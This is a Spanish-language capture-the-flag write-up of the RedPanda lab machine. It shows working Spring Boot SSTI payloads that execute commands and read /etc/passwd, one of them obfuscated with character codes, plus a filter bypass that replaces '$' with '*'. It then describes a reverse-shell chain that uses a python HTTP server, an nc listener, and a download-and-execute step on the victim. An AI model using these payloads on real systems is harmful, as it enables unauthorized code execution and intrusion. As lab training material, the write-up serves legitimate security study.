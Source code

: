 ```
<img src="/photos/2022-09-26-RedPanda-WriteUp/sstidetectionhashtag.png" alt="drawing"  /> 

<img src="/photos/2022-09-26-RedPanda-WriteUp/sstidetectionasterisco.png" alt="drawing"  /> 
 
Ahora que ya sabemos que es vulnerable, vamos a probar con *payloads* mas sofisticados que nos puedan otorgar ejecución de comandos en la máquina víctima. Como sabemos que la web utiliza el *framework* de *Spring Boot* que corre en *Java*, vamos a probar a inyectar código diseñado para este lenguaje. En la página web [Hack Tricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) podemos ver algunos *payloads*.

Por ejemplo, si queremos obtener el archivo *passwd* de la máquina víctima, los *payloads* con los que podríamos jugar son:

```
${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

Es cierto que estos dos códigos utilizan el carácter *banneado* $ pero hemos visto que tanto con el símbolo * como con el ## obteníamos buenos resultados. Por lo tanto, sustituiremos el *$* por el *\**.  

El primer *payload* ejecuta el comando en la máquina víctima pero no muestra el output del mismo, mientras que con el segundo si que se ve.

<img src="/photos/2022-09-26-RedPanda-WriteUp/sstiretrievepasswdnodump.png" alt="drawing"  /> 

<img src="/photos/2022-09-26-RedPanda-WriteUp/sstiretrievepasswddump.png" alt="drawing"  /> 

Si me pongo en escucha con *tcpdump* por la interfaz tun0 para recibir un *ping* de la máquina víctima, vemos que lo recibo correctamente.

<img src="/photos/2022-09-26-RedPanda-WriteUp/sstiping.png" alt="drawing"  /> 

<img src="/photos/2022-09-26-RedPanda-WriteUp/sstipingreceived.png" alt="drawing"  /> 

### Explotando SSTI para conseguir una shell  


Es hora de enviarnos una *reverse shell*. Lo pasos que seguiré serán:  
Crear un archivo index.html con un código en bash que me enviará una reverse shell.

<img src="/photos/2022-09-26-RedPanda-WriteUp/indexhtml.png" alt="drawing"  /> 

Desplegaré con python un servicio http ```(sudo python3 -m http.server 80)``` que compartirá este archivo y me pondré en escucha por el puerto 443 ```(nc -nlvp 443)``` esperando a recibir la reverse shell.     

Del lado de la máquina victima, primero haré que se descargue mi fichero index.html y posteriormente que lo ejecute.  

<img src="/photos/2022-09-26-RedPanda-WriteUp/sstiwget.png" alt="drawing"  /> 

<img src="/photos/2022-09-26-RedPanda-WriteUp/sstiexecrevshell.png " alt="drawing"  />

Recibimos la solicitud *HTTP* por arriba y la *shell* por abajo.
```